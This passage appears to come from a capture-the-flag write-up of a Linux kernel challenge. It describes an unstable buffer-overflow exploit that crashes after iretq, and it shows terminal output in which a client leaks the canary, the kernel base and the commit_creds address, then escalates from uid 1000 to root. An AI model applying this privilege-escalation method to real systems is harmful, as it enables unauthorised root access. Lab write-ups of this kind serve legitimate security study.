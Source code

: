 When I was solving this challenge, I found that the kernel crashed just after `iretq`. And the error infomation mentions something about scheduling. I don't know whether it is because the buffer overflow corrupts some data for scheduling. And the exploit is very unstable because of it. Then during debuggin I found that if the kernel performs scheduling before `iretq`, then the `iretq` is sure to succeed. I have no time to further debug it at the moment, but if any of you have any idea,please share it with [me](changochen1@gmail.com):)

With all this,we have the following:
```bash
__        __   _                            _        
\ \      / /__| | ___ ___  _ __ ___   ___  | |_ ___  
 \ \ /\ / / _ \ |/ __/ _ \| '_ ` _ \ / _ \ | __/ _ \ 
  \ V  V /  __/ | (_| (_) | | | | | |  __/ | || (_) |
   \_/\_/ \___|_|\___\___/|_| |_| |_|\___|  \__\___/ 
                                                     
 _   _ _  ____ _____ _____ 
| \ | / |/ ___|_   _|  ___|
|  \| | | |     | | | |_   
| |\  | | |___  | | |  _|  
|_| \_|_|\____| |_| |_|    

/ $ id
uid=1000(pwn) gid=1000 groups=1000
/ $ ./client
Canary :a5331ce835ea8f00
Kernelbase ffffffff92dc8d4e
Commit_creds:ffffffff9267cfd0
Eflags 202,SS 2b, CS 33
/ # id
uid=0(root) gid=0
/ # 
```
Enjoy your root shell:)
